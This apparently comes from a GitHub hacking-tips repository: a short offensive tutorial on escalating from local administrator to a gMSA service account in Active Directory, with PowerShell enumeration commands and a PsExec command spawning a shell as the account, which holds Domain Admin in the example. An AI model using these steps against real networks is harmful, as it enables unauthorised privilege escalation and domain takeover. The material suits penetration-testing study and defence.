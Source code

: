 # Elevate from Local admin to gMSA account
Some of the steps in this tutorial used [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_01.png)

* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
 https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_02.png
 
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt
* 
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_03.png)

* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account. Password can be anything. If not giving password as argument, just hit enter at the password prompt.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```
![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_3.png)



In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

![](https://raw.githubusercontent.com/pwnj0hn/HackingTipsNTricks/main/img/gmsa_4.png)
